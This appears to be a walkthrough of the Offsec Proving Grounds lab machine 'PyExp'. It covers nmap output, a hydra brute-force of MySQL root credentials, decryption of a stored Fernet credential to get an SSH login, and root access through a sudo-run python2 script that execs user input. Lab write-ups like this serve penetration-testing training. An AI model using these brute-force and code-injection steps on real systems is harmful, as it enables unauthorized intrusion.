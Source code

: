 ```yaml
---
title: "Proving grounds Play: PyExp"
layout: post
date: 2023-09-17 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7af6cd12694dce51a221a644e1c34a9 (RSA)
|   256 46d28dbd2f9eafcee2455ca612c0d919 (ECDSA)
|_  256 8d11edff7dc5a72499227fce2988b24a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 368
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, Support41Auth, Speaks41ProtocolOld, SupportsTransactions, IgnoreSigpipes, DontAllowDatabaseTableColumn, SupportsCompression, InteractiveClient, SupportsLoadDataLocal, Speaks41ProtocolNew, LongColumnFlag, FoundRows, ODBCClient, ConnectWithDatabase, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: KyD%+GeFklYZ8G;3,#he
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Brute Force mysql credentials

```sh
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.204.118
```

Credentials obtained `root:prettywoman`.

![img](/assets/images/CTF/Proving_Grounds/PyExp/mysql.png)

Select database `data` and check the tables.

```sh
MariaDB [(none)]> use data;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| fernet         |
+----------------+
1 row in set (0.215 sec)
```

Extract data from the table `fernet`.

```sh
MariaDB [data]> SELECT * from fernet;
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| cred                                                                                                                     | keyy                                         |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= | UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0= |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
1 row in set (0.182 sec)

MariaDB [data]>
```

## Fernet Decode

![img](/assets/images/CTF/Proving_Grounds/PyExp/fernet.png)

### Decoded data

```text
Decoded:	lucy:wJ9`"Lemdv9[FEw-
Date created:	Mon Aug 10 21:02:44 2020
Current time:	Sun Sep 17 03:36:04 2023

======Analysis====
Decoded data:  80000000005f31b5f46ea5894d37472946181bd53963a2460a980488baa6608565581eedf20becb9ac9f84b38efdc1e7250175fe26efd78b22d4c6cbec382df4e764f262870172e1c8766995ac74bf4d8c33387fcff788ef2b
Version:	80
Date created:	000000005f31b5f4
IV:		6ea5894d37472946181bd53963a2460a
Cipher:		980488baa6608565581eedf20becb9ac9f84b38efdc1e7250175fe26efd78b22
HMAC:		d4c6cbec382df4e764f262870172e1c8766995ac74bf4d8c33387fcff788ef2b

======Converted====
IV:		6ea5894d37472946181bd53963a2460a
Time stamp:	1597093364
Date created:	Mon Aug 10 21:02:44 2020
```

Decoded data is a SSH credential.

SSH to user `lucy` using the password obtained in the above step.

**Initial Foothold Obtained**

## Privilege Escalation

Check permissions for the user.

![img](/assets/images/CTF/Proving_Grounds/PyExp/shell.png)

The user can run python2 as root without password and check the python code.

```py
uinput = raw_input('how are you?')
exec(uinput)
```

The input `uinput` in the above code is not sanitized, so an arbitrary command injection vulnerability is exploitable.

Run the python code as super user as below with the input as a OS command.

```sh
import os; os.system("/bin/dash")
```

![img](/assets/images/CTF/Proving_Grounds/PyExp/root.png)

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).